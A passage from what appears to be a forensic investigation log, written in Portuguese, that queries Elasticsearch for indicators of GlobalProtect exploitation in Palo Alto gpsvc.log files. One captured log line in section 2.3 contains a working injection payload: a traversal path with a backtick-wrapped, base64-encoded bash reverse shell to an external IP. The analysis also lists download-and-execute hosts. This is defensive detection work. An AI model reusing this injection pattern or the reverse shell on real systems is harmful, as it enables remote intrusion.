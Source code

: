 # Phase 02 — gpsvc.log & primeiros indícios (comando + resultado + análise)

## 2.1 gpsvc presence (sample)
**Comando (DevTools):**
~~~http
GET paloalto-linux-messages-*/_search
{
  "size": 3,
  "track_total_hits": true,
  "_source": ["@timestamp","log.file.path","message","event.original"],
  "query": {
    "bool": {
      "should": [
        { "match_phrase": { "log.file.path": "gpsvc.log" } },
        { "query_string": { "default_field": "log.file.path", "query": "*gpsvc.log" } }
      ],
      "minimum_should_match": 1
    }
  },
  "sort": [{ "@timestamp": "asc" }]
}
~~~

**Resultado (resumo):** `hits.total.value = 2014`  
**Amostra real (3 hits):**
~~~json
{
  "took": 5,
  "hits": {
    "total": { "value": 2014, "relation": "eq" },
    "hits": [
      {
        "_source": {
          "log": { "file": { "path": "/mnt/palo_alto2/var/log/pan/gpsvc.log" } },
          "message": "{\"level\":\"info\",\"time\":\"2024-04-21T08:06:32.124890099-07:00\",\"message\":\"============= Start gpsvc... =============\"}",
          "@timestamp": "2024-04-26T17:58:01.306455127Z"
        }
      },
      {
        "_source": {
          "log": { "file": { "path": "/mnt/palo_alto2/var/log/pan/gpsvc.log" } },
          "message": "{\"level\":\"info\",\"time\":\"2024-04-21T08:06:32.124997885-07:00\",\"message\":\"[Version]: 3.pan\"}",
          "@timestamp": "2024-04-26T17:58:01.306503911Z"
        }
      },
      {
        "_source": {
          "log": { "file": { "path": "/mnt/palo_alto2/var/log/pan/gpsvc.log" } },
          "message": "{\"level\":\"info\",\"time\":\"2024-04-21T08:06:32.125014261-07:00\",\"message\":\"[Git Version]: ca0660bda21\"}",
          "@timestamp": "2024-04-26T17:58:01.306516998Z"
        }
      }
    ]
  }
}
~~~

**Análise:** fonte `gpsvc.log` confirmada e volumosa — local típico dos erros de sessão ligados à exploração do GlobalProtect.

---

## 2.2 gpsvc count
**Comando (DevTools):**
~~~http
GET paloalto-linux-messages-*/_count
{
  "query": {
    "bool": {
      "should": [
        { "match_phrase": { "log.file.path": "gpsvc.log" } },
        { "query_string": { "default_field": "log.file.path", "query": "*gpsvc.log" } }
      ],
      "minimum_should_match": 1
    }
  }
}
~~~

**Resultado (real):**
~~~json
{
  "count": 2014,
  "_shards": { "total": 1, "successful": 1, "skipped": 0, "failed": 0 }
}
~~~

**Análise:** confirma o volume total de eventos em `gpsvc.log` no período de ingestão do índice.

---

## 2.3 "failed to unmarshal session" (IOC chave)
**Comando (DevTools):**
~~~http
GET paloalto-linux-messages-*/_search
{
  "size": 20,
  "track_total_hits": true,
  "_source": ["@timestamp","log.file.path","message","event.original"],
  "query": {
    "query_string": {
      "query": "message:\"failed to unmarshal session\" OR event.original:\"failed to unmarshal session\""
    }
  },
  "sort": [{ "@timestamp": "asc" }]
}
~~~

**Resultado (recorte real):** `hits.total.value = 101`
~~~json
{
  "hits": {
    "total": { "value": 101, "relation": "eq" },
    "hits": [
      {
        "_source": {
          "log": { "file": { "path": "/mnt/palo_alto3/var/log/pan/gpsvc.log" } },
          "message": "{\"level\":\"error\",\"task\":\"9-22\",\"time\":\"2024-04-21T22:20:27.58-07:00\",\"message\":\"failed to unmarshal session(/../../../../opt/panlogs/tmp/device_telemetry/minute/aaa`echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC81NC4xNjIuMTY0LjIyLzEzMzcgMD4mMQ==|base64${IFS}-d|bash`) map , EOF\"}",
          "@timestamp": "2024-04-26T17:58:42.868Z"
        }
      }
      /* ...demais hits em results/phase02/search_unmarshal_session.json */
    ]
  }
}
~~~

**Análise (pontos):**
- **Path traversal** para `sslvpndocs` / `device_telemetry`;
- **Execução de comandos** via backticks + `echo <base64> | bash`;
- **Pós-execução**: reverse shell (`/dev/tcp/54.162.164.22/1337`) e download/exec (`185.196.9.31:8080`, `138.197.162.79:65534`).

**Arquivos-verdade no repo:**
- `results/phase02/search_gpsvc_sample.json`
- `results/phase02/count_gpsvc.json`
- `results/phase02/search_unmarshal_session.json`
